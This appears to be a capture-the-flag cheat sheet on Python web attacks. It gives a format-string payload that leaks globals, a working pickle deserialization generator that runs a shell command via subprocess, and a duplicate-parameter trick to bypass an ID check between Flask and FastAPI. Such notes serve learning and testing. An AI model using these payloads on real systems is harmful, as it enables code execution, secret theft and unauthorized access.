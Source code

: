 # Python

Always look out for `str.replace()` because yes...

## Format string injection

Format string injection usually occurs when using `.format()`.

Example:
```py
a = input()
vuln = f'{{{a}}}'.format(random_string='asdf')
```

> `f'{{{a}}}'` resolves to `'{asdf}'`, input being `'asdf'`, which is passed to `'{asdf}'.format()`

> Instead of a single key, a dictionary can also be passed into `.format(**dict)`

The exploit is similar to SSTI RCE, but in this case, we don't have RCE as we cannot execute anything. Rather, we only can leak sensitive secrets (like flags)

1. Get access to a `__globals__` through the dict passed in 
	* `<key>.__init__.__globals__`
2. Access any global variable through `__globals__[name]`

> Note: if the application passes in additional attributes (like `f'{{{a}.code}}.format(**dict)`) that does not exist 
> in a string, you can escape {} and access another "proper" item that has the desired attribute

Payload:

`{item.__init__.__globals__[flag]} {item`

## Pickle unserialize

The pickle module is vulnerable to unsafe deserialization of Python objects.

Exploit:

```py
DEFAULT_COMMAND = ['env']

import pickle
import base64
import requests

#COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    ''' __reduce__ can return either a string or a tuple. If it returns a string, then it should be the name of a global variable. If it returns a tuple, it should be in the following syntax: callable, (args), *object's state (will be passed to __setstate__(), *iterator of items (for list subclasses), *iterator of key-value pairs (for dict subclasses or if the class implements __setitem__()), *(obj, state) to set state of class (overriding __setstate__() if implemented)

    The one we are interested in for RCE is callable, (args)

    This has been implemented below.
    '''

    def __reduce__(self):
        import subprocess
        #import os
        return subprocess.check_output, (DEFAULT_COMMAND,)

def gen_payload():
    payload = bytes.decode(base64.b64encode(pickle.dumps(PickleRce())), 'utf-8')
    return payload

print(gen_payload())
```

Instead of `subprocess.check_output`, we can also use `os.popen().read()`, but note that on Windows, there is an issue serializing the os module which becomes "nt" module for some reason.

## HTTP Parameter Pollution

> Example: A flask app which makes an internal API call to a FastAPI app.

```python
uid = request.args.get("uid")  
if(uid == str(current_user.user["id"])):   # MOST IMPORTANT CHECK! 
   # pass the url behind to fastapi
   fullurl = request.url 
   path = fullurl.replace(request.url_root, "").replace("fastapi", "")
   forwardurl = "http://localhost:8000" + path
   app.logger.debug("Forwarded URL to Fastapi: %s", forwardurl)
   r = requests.get(forwardurl)
   if(r.ok):
       try:
           j = r.json()
           msg = j['message']
           return Response(msg, status=200)
```

```python
@app.get("/retrievekey")
async def hpp(uid: str):
    r = db.getkey(uid)
    if(r and r['key']):
        location = "/securenote/" + r['key']
        result = 'You will redirect to your secure URL <a href="' + location + '">here</a>'
        # redirects
    return {"message": html}
```

You may think that Insecure Direct Object Reference (IDOR) is not possible, but it is!

Flask kind of "prefers" the first param while FastAPI "prefers" the last one (if you supply two `?uid=` params).

Hence by doing `retrievekey?uid=[i am authorised] &uid=[admin]`, we can access things which we aren't meant to access.

Resource: https://0xgaurang.medium.com/case-study-bypassing-idor-via-parameter-pollution-78f7b3f9f59d